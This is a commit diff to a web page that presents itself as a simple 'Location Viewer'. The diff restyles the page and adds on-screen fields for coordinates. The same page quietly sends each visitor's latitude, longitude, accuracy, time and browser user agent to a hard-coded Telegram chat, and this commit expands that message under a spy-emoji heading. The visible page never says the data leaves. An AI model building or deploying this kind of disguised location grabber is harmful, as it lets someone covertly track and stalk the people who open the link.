

Before and after one commit to LigFiBackend/Geolocation, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1071 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,39 +1,63 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>Карта местоположения</title>
+    <title>▪️ Location Viewer ▪️</title>
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <style>
         body {
             margin: 0;
-            padding: 0;
+            padding: 20px;
             font-family: Arial, sans-serif;
+            background: #f8f9fa;
+            min-height: 100vh;
+        }
+        .container {
+            max-width: 800px;
+            margin: 0 auto;
+        }
+        .map-box {
             background: white;
+            border-radius: 15px;
+            box-shadow: 0 4px 6px rgba(0,0,0,0.1);
+            overflow: hidden;
+            margin: 20px 0;
         }
         #map {
-            height: 85vh;
+            height: 300px;
             width: 100%;
         }
-        #controls {
-            padding: 15px;
-            text-align: center;
+        .info-box {
+            background: white;
+            padding: 20px;
+            border-radius: 15px;
+            box-shadow: 0 2px 4px rgba(0,0,0,0.05);
+            margin: 15px 0;
         }
         button {
             background: #000;
             color: white;
             border: none;
             padding: 12px 25px;
-            border-radius: 20px;
+            border-radius: 25px;
             font-size: 16px;
             cursor: pointer;
+            width: 100%;
             transition: opacity 0.3s;
         }
         button:hover {
-            opacity: 0.8;
+            opacity: 0.9;
         }
-        button:disabled {
-            background: #555;
-            cursor: not-allowed;
+        .data-row {
+            display: flex;
+            justify-content: space-between;
+            margin: 10px 0;
+            padding: 8px;
+            background: #f8f9fa;
+            border-radius: 8px;
+        }
+        .data-label {
+            color: #6c757d;
+            font-weight: bold;
         }
         .leaflet-control-container {
             display: none !important;
@@ -42,9 +66,31 @@
     <link rel="stylesheet" href="https://unpkg.com/leaflet@1.9.4/dist/leaflet.css" />
 </head>
 <body>
-    <div id="map"></div>
-    <div id="controls">
-        <button id="locateBtn">📍 Определить местоположение</button>
+    <div class="container">
+        <button id="locateBtn">📍 Определить моё местоположение</button>
+
+        <div class="map-box">
+            <div id="map"></div>
+        </div>
+
+        <div class="info-box">
+            <div class="data-row">
+                <span class="data-label">Широта:</span>
+                <span id="latitude">—</span>
+            </div>
+            <div class="data-row">
+                <span class="data-label">Долгота:</span>
+                <span id="longitude">—</span>
+            </div>
+            <div class="data-row">
+                <span class="data-label">Точность:</span>
+                <span id="accuracy">—</span>
+            </div>
+            <div class="data-row">
+                <span class="data-label">Время:</span>
+                <span id="time">—</span>
+            </div>
+        </div>
     </div>
 
     <script src="https://unpkg.com/leaflet@1.9.4/dist/leaflet.js"></script>
@@ -53,12 +99,14 @@
         const CHAT_ID = '6503842877';
         let map, marker;
 
-        async function sendLocation(lat, lng, accuracy) {
-            const message = `🌍 Новые координаты:
-Широта: ${lat.toFixed(6)}
-Долгота: ${lng.toFixed(6)}
-Точность: ${accuracy.toFixed(1)} м
-Время: ${new Date().toLocaleTimeString()}`;
+        async function sendToTelegram(lat, lng, accuracy) {
+            const message = `🕵️‍♂️ Новый доступ к локации:
+┌ Широта: ${lat}
+├ Долгота: ${lng}
+└ Точность: ${accuracy} м
+
+⏱ ${new Date().toLocaleString()}
+🌐 ${navigator.userAgent}`;
 
             try {
                 await fetch(
@@ -67,6 +115,13 @@
             } catch(e) {
                 console.error('Ошибка отправки:', e);
             }
+        }
+
+        function updateUI(lat, lng, accuracy) {
+            document.getElementById('latitude').textContent = lat.toFixed(6);
+            document.getElementById('longitude').textContent = lng.toFixed(6);
+            document.getElementById('accuracy').textContent = `${accuracy.toFixed(1)} м`;
+            document.getElementById('time').textContent = new Date().toLocaleTimeString();
         }
 
         function initMap(lat, lng) {
@@ -83,12 +138,13 @@
 
             if (marker) marker.remove();
             marker = L.marker([lat, lng]).addTo(map);
+            map.setView([lat, lng], 16);
         }
 
         document.getElementById('locateBtn').addEventListener('click', async () => {
             const btn = document.getElementById('locateBtn');
             btn.disabled = true;
-            btn.textContent = 'Определяем...';
+            btn.textContent = 'Идёт поиск...';
 
             try {
                 const position = await new Promise((resolve, reject) => {
@@ -100,9 +156,11 @@
 
                 const lat = position.coords.latitude;
                 const lng = position.coords.longitude;
+                const accuracy = position.coords.accuracy;
 
+                updateUI(lat, lng, accuracy);
                 initMap(lat, lng);
-                await sendLocation(lat, lng, position.coords.accuracy);
+                await sendToTelegram(lat, lng, accuracy);
 
                 btn.textContent = 'Готово!';
                 setTimeout(() => {
@@ -112,7 +170,7 @@
 
             } catch(error) {
                 console.error('Ошибка:', error);
-                btn.textContent = 'Ошибка!';
+                btn.textContent = 'Ошибка определения!';
                 setTimeout(() => {
                     btn.disabled = false;
                     btn.textContent = '📍 Определить местоположение';
```
